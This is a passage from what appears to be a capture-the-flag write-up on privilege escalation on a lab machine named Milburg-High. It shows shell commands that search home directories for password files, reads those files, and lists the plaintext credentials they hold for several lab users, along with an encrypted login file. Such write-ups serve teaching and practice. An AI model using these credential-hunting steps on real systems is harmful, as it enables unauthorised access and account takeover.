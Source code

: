 # Privilege Escalation
## Elliot - Via Creds Found
1. Look for `.txt` & `pass` files in `/home`
	```
	www-data@Milburg-High:/home$ find $(pwd) 2>/dev/null | grep -P ".txt|pass"
	/home/bob/.old_passwordfile.html
	/home/bob/Documents/staff.txt
	/home/bob/Documents/login.txt.gpg
	....
	/home/elliot/theadminisdumb.txt
	```
2. View enumerated files
	-  `.old_passwordfile.html`
		```
		www-data@Milburg-High:/$ more /home/bob/.old_passwordfile.html
		<html>
		<p>
		jc:Qwerty
		seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
		</p>
		</html>
		```
		- seb:`T1tanium_Pa$$word_Hack3rs_Fear_M3`
		- jc:Qwerty
	-  `/home/bob/Documents/staff.txt`
		```
		www-data@Milburg-High:/home$ cat /home/bob/Documents/staff.txt
		Seb:

		Seems to like Elliot
		Wants to do well at his job
		Gave me a backdoored FTP to instal that apparently Elliot gave him

		James:

		Does nothing
		Pretty Lazy
		Doesn't give a shit about his job

		Elliot:

		Keeps to himself
		Always needs to challenge everything I do
		Keep an eye on him
		Try and get him fired
		```
	-  `/home/bob/Documents/login.txt.gpg`
		```
		www-data:/$ more /home/bob/Documents/login.txt.gpg
		o��J[V0w�q�OS�bob@Milburg-High:/$ file /home/bob/Documents/login.txt.gpg
		/home/bob/Documents/login.txt.gpg: GPG symmetrically encrypted data (AES cipher)
		bob@Milburg-High:/$ 
		```
		- **symmetrically encrypted**, no need for private key, only passphrase needed.
	-  `/home/elliot/theadminisdumb.txt`
		```
		www-data@Milburg-High:/home$ cat /home/elliot/theadminisdumb.txt
		The admin is dumb,.........SNIP
		theadminisdumb
		```
		- elliot:theadminisdumb
3. Switch to seb, jc, elliot, could not enumerate/find ways to root
4. Proceed to `/home/bob/Documents`